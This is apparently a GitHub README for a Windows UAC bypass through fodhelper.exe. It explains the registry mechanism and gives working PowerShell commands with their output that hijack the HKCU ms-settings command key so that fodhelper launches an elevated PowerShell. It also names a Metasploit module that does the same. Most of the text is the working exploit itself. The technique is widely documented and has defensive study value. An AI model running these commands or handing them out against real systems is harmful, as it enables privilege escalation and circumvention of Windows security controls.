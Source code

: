 # FodHelper-UAC-Bypass
fodhelper.exe was introduced in windows 10  manage optional features. Fodhelper run at high integrity.

Fodhelper tries to locate the following registry 
`HKCU:\Software\Classes\ms-settings\shell\open\command`

adding the DelegateExecute  value will make fodhelper search for the default value and will create a new process with that value. Setting Default value to something like powershell.exe wil make a high integrity process. 

```
PS C:\Users\test> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe -Force


    Hive: HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open


Name                           Property
----                           --------
command                        (default) : powershell.exe


PS C:\Users\test> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force


DelegateExecute :
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open
PSChildName     : command
PSDrive         : HKCU
PSProvider      : Microsoft.PowerShell.Core\Registry



PS C:\Users\test> C:\Windows\System32\fodhelper.exe
PS C:\Users\test>
```

![image](https://github.com/user-attachments/assets/0e327386-9af3-4f2d-92ba-80cf9e4ddcb7)

![image](https://github.com/user-attachments/assets/46a7642c-afca-4f80-86a4-0a56fe94da81)
You can also used the following on metasploit but that will be block by defender
use exploit/windows/local/bypassuac_fodhelper
